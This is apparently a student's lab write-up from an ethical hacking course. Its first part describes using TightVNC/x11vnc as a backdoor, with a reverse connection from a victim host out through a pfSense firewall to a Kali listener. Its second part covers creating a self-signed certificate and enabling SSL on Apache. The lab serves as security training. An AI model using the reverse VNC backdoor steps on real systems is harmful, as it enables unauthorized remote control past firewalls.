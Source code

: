 #  VNC as a Backdoor and Creating/Installing SSL Certificates

## Objective
Topology: OpenSUSE, pfSense, and Kali

- Utilize TightVNC to create a reverse connection through a firewall.
- Create a self-signed X.509 certificate and install it on a Linux web server.
---

## Overview / Directions
**OpenSUSE**

1. Inititated TightVNC in an OpenSUSE Terminal.
2. Switched to Kali Terminal and input the 'vncviewer' command to open a server window.
3. Input the OpenSUSE IP address:5902 and password. Closed the window that appeared and switched back to the OpenSUSE tab and input 'vncserver–kill :2'.
4. Switched back to the Kali Terminal and input 'vncviewer–listen 0'.
5. Switched back to the OpenSUSE Terminal and navigated to the /usr/bin directory and established a listener connection outside of the firewall with ' ./x11vnc–connect IP
   address:5500'.

**Kali**

Self-Signed Cert:

1. Generated an SSL key >  openssl genrsa–out ca.key 2048
2. Generated a new Certificate Signing Request (CSR) >  openssl req–new–key ca.key–out ca.csr
3. Filled out a Distinguished Name (DN) to be incorporated into the CSR
4. Generated a self-signed key >  openssl x509–req–days 365–in ca.csr–signkey ca.key–out ca.crt
5. Copied the ca.crt file from the current directory to the /etc/ssl/certs/ directory >  cp ca.crt /etc/ssl/certs/ca.crt
6. Copied the ca.key file from the current directory to the /etc/ssl/private directory >  cp ca.key /etc/ssl/private/ca.key
7. Copied the ca.csr file from the current directory to the /etc/ssl/private/ directory >  cp ca.csr /etc/ssl/private/ca.csr

Apache SSL File Configuration/SSL Cert Testing:

1. Navigated to the /etc/apache2/sites-available/ directory >  cd /etc/apache2/sites-available
2. Copied the default-ssl.conf file >  cp default-ssl.conf localhost-ssl.conf
3. Edited the localhost-ssl.conf file using the Mousepad file editor >  mousepad localhost-ssl.conf
4. Changed the SSLCertificateFile and SSLCertificateKeyFile paths >  SSLCertificateFile /etc/ssl/certs/ca.crt SSLCertificateKeyFile /etc/ssl/private/ca.key
5. Saved the fie. Exited Mousepad.
6. Changed to the sites-enabled directory >  cd /etc/apache2/sites-enabled/
7. Enabled the localhost-ssl site >  ln-s /etc/apache2/sites-available/localhost-ssl.conf
8. Enabled the SSL Apache Mod >  a2enmod ssl
9. Restarted the Apache service > service apache2 restart
10. Opened web browser and viewed ht*ps://localhost warning message/certificate details.


---

## Tools / Skills Used
- **Tools:** TightVNC; OpenSUSE; Kali Linux
- **Skills:** File/Directory Management; X.509 SSL Certificates; Web Server (Apache) SSL Certification Configuration

---

## Proof of Completion
**[Documentation](./Documentation)**

---

## Key Takeaway
This lab strengthened my **technical adaptability and problem-solving** skills by establishing a secure reverse VNC connection and manually creating and configuring SSL certificates on a Linux web server. Navigating multi-step processes across TightVNC, OpenSUSE, Kali, and Apache enhanced my **persistence, analytical reasoning, and foresight** in planning secure configurations. These abilities transfer directly to real-world scenarios where secure remote access and encrypted communications are critical for system integrity.

**[Return to Ethical Hacking Overview](./../README.md)**
